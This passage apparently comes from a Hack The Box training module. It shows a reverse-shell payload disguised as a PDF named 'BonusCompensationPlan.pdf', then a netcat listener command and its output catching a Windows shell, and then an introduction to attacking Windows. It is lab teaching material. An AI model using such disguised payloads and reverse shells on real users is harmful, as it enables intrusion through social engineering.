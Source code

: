 ![File explorer showing 'BonusCompensationPlan.pdf' in the Downloads folder on a Windows system.](https://academy.hackthebox.com/storage/modules/115/winpayload.png)

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```shell
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free

```


# Infiltrating Windows

* * *

Since many of us can remember, Microsoft has dominated the home and enterprise markets for computing. In modern days, with the introduction of improved Active Directory features, more interconnectivity with cloud services, Windows subsystem for Linux, and much more, the Microsoft attack surface has grown as well.

For example, just in the last five years, there have been `3688` reported vulnerabilities just within Microsoft Products, and this number grows daily. This table was derived from [HERE](https://www.cvedetails.com/vendor/26/Microsoft.html)

* * *

#### Windows Vulnerability Table

![Table showing the number of vulnerabilities and exploits from 1999 to 2021. It includes categories like DoS, Code Execution, Overflow, Memory Corruption, SQL Injection, XSS, Directory Traversal, and more. Each year lists the number of vulnerabilities and exploits, with totals and percentages at the bottom.](https://academy.hackthebox.com/storage/modules/115/window-vulns-table.png)

## Prominent Windows Exploits

Over the last few years, several vulnerabilities in the Windows operating system and their corresponding attacks are some of the most exploited vulnerabilities of our time. Let's discuss those for a minute:
